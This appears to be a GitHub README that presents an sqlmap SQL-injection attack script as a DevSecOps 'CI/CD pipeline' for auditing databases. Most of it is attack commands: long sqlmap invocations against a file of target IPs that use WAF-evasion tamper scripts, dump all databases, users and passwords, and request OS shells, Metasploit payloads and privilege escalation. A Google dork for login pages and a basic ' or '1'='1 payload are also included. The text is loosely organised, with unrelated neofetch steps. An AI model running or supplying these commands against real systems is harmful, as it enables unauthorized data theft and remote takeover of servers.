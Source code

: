 This project verify that your DataBases are under compliant with the actual DevSecOps MSB

Let’s audit Our Application with https://sqlmap.org {1.5.1.17#dev}

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.

## 1. Install python 2.7

https://gist.github.com/4k4xs4pH1r3/2196035667b41107d903ebc5a771d956

#

## 2. Install sqlmap

       apt install sqlmap -y && cp -r /usr/share/sqlmap /usr/share/sqlmap_bck && rm -r /usr/share/sqlmap && git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git /usr/share/sqlmap && sqlmap --update && sqlmap --version

#

## Generate IP addresses file of your applications (targets)

    cd /root && mkdir SA && cd SA && mkdir ad && nano ~/SA/ad/ad_ips

## Create the Pipeline CI/CD with metasploit

    nano /root/SA/ad/SA_sqli.sh

#

    sudo apt install neofetch screenfetch -y
    neofetch
    screenfetch
    sqlmap -f -b -o -m /root/SA/ad/ad_ips -t /root/.sqlmap/output/sqlmap_scan -s -a --prefix="--%20', '%20%20', '-- ', ' '" --suffix="-- " --batch --crawl=1337 --crawl-exclude="logout" --forms --randomize=yes --answers="keep testing=Y,optimize=Y,sitemap=Y,follow=Y,extending=N,skip further tests=N,exploit=Y" --cookie=jsessionid=12345 --dump-all --exclude-sysdbs --random-agent --threads=10 --risk=3 --level=5 --delay=3 --timeout=37 --retries=3 --dbs --dbms=mssql --os=Linux --count --hostname --current-user --current-db --passwords --binary-fields --tables --columns --schema --is-dba --users --privileges --roles --common-tables --common-columns --comments --shared-lib --parse-errors --drop-set-cookie --time-sec=17 --ignore-proxy --ignore-timeouts --randomize 7 --hpp --null-connection --invalid-bignum --invalid-logical --invalid-string --charset="0123456789abcdef" --encoding=GBK --technique BEUSTQ --hex --tamper=0eunion,apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,binary,bluecoat,chardoubleencode,charencode,charunicodeencode,charunicodeescape,commalesslimit,commalessmid,commentbeforeparentheses,concat2concatws,equaltolike,equaltorlike,escapequotes,greatest,halfversionedmorekeywords,hex2char,hexentities,htmlencode,if2case,ifnull2casewhenisnull,ifnull2ifisnull,informationschemacomment,least,lowercase,luanginx,misunion,modsecurityversioned,modsecurityzeroversioned,multiplespaces,ord2ascii,overlongutf8,overlongutf8more,percentage,plus2concat,plus2fnconcat,randomcase,randomcomments,schemasplit,scientific,sleep2getlock,sp_password,space2comment,space2dash,space2hash,space2morecomment,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,space2randomblank,substring2leftright,symboliclogical,unionalltounion,unmagicquotes,uppercase,varnish,versionedkeywords,versionedmorekeywords,xforwardedfor --os-shell --os-pwn --os-smbrelay --os-bof --priv-esc --reg-read --ignore-timeouts --udf-inject --where=DUMPWHERE --dump-format=SQLITE --msf-path /usr/bin --tmp-dir=/root/.sqlmap/history --beep --dependencies --unstable --alert=x -v 7

#

## Create the Pipeline CI/CD without metasploit

    nano /root/SA/ad/SA_sqli.sh

#

    sudo apt install neofetch -y
    neofetch
    sudo sqlmap -f -b -o -m ~/SA/ad/ad_ips -t ~/.sqlmap/output/sqlmap_scan -s -a --prefix="--%20', '%20%20', '-- ', ' '" --suffix="-- " --batch --crawl=13 --crawl-exclude="logout" --forms --randomize=yes --answers="keep testing=Y,optimize=Y,sitemap=Y,follow=Y,extending=N,skip further tests=N,exploit=Y" --cookie=jsessionid=12345 --dump-all --exclude-sysdbs --random-agent --threads=10 --risk=3 --level=5 --delay=1 --timeout=15 --retries=2  --dbs --dbms=mssql --os=Linux --count --hostname --current-user --current-db --passwords --binary-fields --tables --columns --schema --is-dba --users --privileges --roles --common-tables --common-columns --comments --shared-lib --parse-errors --drop-set-cookie --time-sec=17 --ignore-proxy --ignore-timeouts --randomize 3 --hpp --null-connection --invalid-bignum --invalid-logical --invalid-string --charset="0123456789abcdef" --encoding=GBK --technique BEUSTQ --hex --tamper=0eunion,apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,binary,bluecoat,chardoubleencode,charencode,charunicodeencode,charunicodeescape,commalesslimit,commalessmid,commentbeforeparentheses,concat2concatws,equaltolike,equaltorlike,escapequotes,greatest,halfversionedmorekeywords,hex2char,hexentities,htmlencode,if2case,ifnull2casewhenisnull,ifnull2ifisnull,informationschemacomment,least,lowercase,luanginx,misunion,modsecurityversioned,modsecurityzeroversioned,multiplespaces,ord2ascii,overlongutf8,overlongutf8more,percentage,plus2concat,plus2fnconcat,randomcase,randomcomments,schemasplit,scientific,sleep2getlock,sp_password,space2comment,space2dash,space2hash,space2morecomment,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,space2randomblank,substring2leftright,symboliclogical,unionalltounion,unmagicquotes,uppercase,varnish,versionedkeywords,versionedmorekeywords,xforwardedfor --os-shell --os-pwn --os-smbrelay --os-bof --priv-esc --reg-read --ignore-timeouts --udf-inject --where=DUMPWHERE --dump-format=SQLITE --tmp-dir=~/.sqlmap/history --beep --dependencies --unstable --alert=x -v 6

    sqlmap -u 'http://imagetok.htb:32531/' --level=5 --risk=3 --privileges --current-user --hostname --random-agent --current-db --dump --columns --schema --roles --comments --passwords --users --tables --is-dba --count -b --dbs --mobile --flush-session --beep --cleanup --fresh-queries --threads=10

## Start & Monitoring of the Pipeline CI/CD

       cd ~/SA/ad/ && chmod +x SA_sqli.sh && ./SA_sqli.sh

#

       tail -f /root/.sqlmap/output/sqlmap_scan

## 3. Analize/Purge the Injections Results

of each host that you are looking for (CSV format)
Include: Target URL; Place; Parameter; Technique(s) and Note(s) at

       cd
       cd /root/.sqlmap/output/

#

#

#

# Additional commands

    -p username --url="http://yourtarget.com//?post=1" --data "username=admin&password=pass"

    -D dbname -T tablename -C id -C username -C password

# Supported DBMSes are as follows:

Firebird, H2, HSQLDB, IBM DB2, Informix, Microsoft Access, Microsoft SQL Server, MySQL, Oracle, PostgreSQL, SAP MaxDB, SQLite, Sybase.

    --dbms=MySQL

    --no-cast

    --no-escape

    --charset 'ascii'

    --predict-output

    --skip-waf

    --eta

    --sqlmap-shell

    --sql-shell


    sqlmap.py -u website –dbs

    -D acuart –tables

    -D acuart -T users –columns

    -D acuart -T users -C name,email,phone -dump


    #
    #
    #
    $ curl --header 'Host: www.example.com' 'https://127.0.0.1/' -v -k

    :)

inurl:website.test/login.asp

' or '1'='1
